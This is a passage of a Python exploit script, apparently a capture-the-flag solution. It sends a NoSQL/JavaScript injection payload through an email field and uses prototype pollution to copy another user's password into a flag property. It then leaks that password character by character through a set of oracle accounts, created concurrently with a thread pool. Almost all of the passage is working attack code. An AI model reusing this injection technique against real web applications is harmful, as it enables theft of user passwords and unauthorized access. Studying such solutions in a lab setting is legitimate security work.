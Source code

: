 ``` py
  })
  session.post(EDIT_URL, data={
    "email": payload
  })

  resp = requests.get(QUERY_URL + name)
  req_count+=3

  if resp.status_code != 200:
    print(resp.status_code)
    print(resp.text)
    return '#'

  if resp.text == 'null':
    print('Failed')
    return '#'

  data = json.loads(resp.text)
  b = data["username"].replace('account_oracle_', '')

  # do it again to leak
  payload = 'anything@anything.com" || this.username=="PinkDraconian" && (() => {this.__proto__.flag = this.password;})() || this.flag && this.username == "account_oracle_" + Math.floor((this.flag.charCodeAt(' + str(index) + ') - 27) / 10) || "'

  session.post(EDIT_URL, data={
    "email": payload
  })

  resp = requests.get(QUERY_URL + name)
  req_count+=2

  if resp.status_code != 200:
    print(resp.status_code)
    print(resp.text)
    return '#'

  if resp.text == 'null':
    print('Failed')
    return '#'

  data = json.loads(resp.text)
  a = data["username"].replace('account_oracle_', '')
  a = int(a)
  b = int(b)

  return chr(10*a + b + 27)

start = time.time()

if SKIP_CREATE_ORACLE == False:
  print("create oracle account...")
  total = len(charset)
  current = 0
  with concurrent.futures.ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
      futures = {executor.submit(create_oracle, c): c for c in charset}
      for future in concurrent.futures.as_completed(futures):
          current += 1
          if current % 10 == 0 or current == total:
            print(f"Progress: {current}/{total}")

print("leaking flag")
length = 19
```